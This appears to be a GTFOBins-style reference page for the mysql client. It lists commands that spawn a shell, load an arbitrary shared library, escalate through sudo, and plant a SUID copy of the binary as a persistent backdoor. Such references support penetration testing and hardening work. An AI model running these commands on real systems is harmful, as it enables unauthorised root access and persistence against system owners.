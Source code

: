 # GTFOBin: mysql

A valid MySQL server must be available.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
mysql -e '\! /bin/sh'
```

## Library load

It loads shared libraries that may be used to run code in the binary execution context.

A MySQL server must accept connections in order for this to work.

The following loads the `/path/to/lib.so` shared object.

```
mysql --default-auth ../../../../../path/to/lib
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo mysql -e '\! /bin/sh'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which mysql) .

./mysql -e '\! /bin/sh'
```